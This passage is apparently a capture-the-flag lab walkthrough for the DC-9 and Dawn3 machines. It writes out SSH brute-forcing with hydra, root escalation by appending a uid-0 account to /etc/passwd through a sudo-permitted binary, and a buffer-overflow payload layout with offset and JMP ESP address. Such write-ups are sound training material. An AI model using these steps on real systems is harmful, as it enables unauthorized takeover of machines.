 8. SSH Logining: Run on each user ssh for login, only with janitor found txt file that contain passwords: `/home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt`
add all the password from that file to my local password file and run hydra again, found the following user:
`fredf:B4-Tru3-001`
login as that fredf user, found the flag, so we know that this user may be the right path.

9. System Enumeration: Copy `linpeas` to that target, but also run ls on the PATH, and run `sudo -l`, we found that fred can run the following as root:
(root) NOPASSWD: /opt/devstuff/dist/test/test
checking that test file found that this is binary file (run file command)
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
run quick search on the directory and found test.py file that may be the non compiled version of that test binary file.

10. Code Assessment: Read that python code we can see that the command should be as follow:
`Usage: python test.py read append`
which are the same output used for test binary file, so this is may mean that we can use it to read value from file and insert it to another file, on my case I am going to make cred file that contain passwd with password or without for user `dummy` and use that test binary to insert it to the real passwd, we can also test that first.

11. Privilage Escalation:
run the following for make that mini passwd file:
echo 'dummy::0:0:dummy:/root:/bin/bash' >>/tmp/dummy
then use test binary for append that data to the real passwd file:
sudo /opt/devstuff/dist/test/test /tmp/dummy /etc/passwd
run `su dummy` didn't work, so make another file that contain hash password:
echo "hacked:\$1\$stef\$ZYhbekI8UymZof5o8aY3A/:0:0:test:/root:/bin/bash" >>/tmp/hacked
please note that password can be create with openssl:
`openssl passwd -1 -salt stef test123`
then run sudo with test to insert it again:
sudo /opt/devstuff/dist/test/test /tmp/hacked /etc/passwd
the run `su hacked` work with test123 as password
root@dc-9:/opt/devstuff# id
uid=0(root) gid=0(root) groups=0(root)

### Dawn3

1. Enumeration: run full port scan with `rustscan` found two port open, 2100 and 6812, run also nmap and found that the first one use for FTP which allow login as anonymouse.

2. FTP Enumeration: trying to login that target with ftp using port 2100 found that we can login anonymous, also found dawn3.exe on that target, so download that file, since we have nothing alse we going to assessment aganst that exe file.

3. Binary Assessment: run `wine` with that dawn3.exe file, found that it start listener on port 6812, so start vm windows 7 with immunity debbuger and copy that file to that vm, create python code and start to over flow that binary, found that the break point is 524 and it also allow to insert more 500 byte after the EIP location, also we can see that the ESP are point to some location after the EIP location, so checking if we have JMP ESP using mona modules and found one that is "52501513", so insert the EIP the following: "\x13\x15\x50\x52", so on the final sending it contain the following:
```
null = "\x90\x00#"
eip = "\x13\x15\x50\x52"
offset = "\x90" * 16
crash = "\x41" * 524
mybuffer = crash + eip + offset + linshell# +null
```
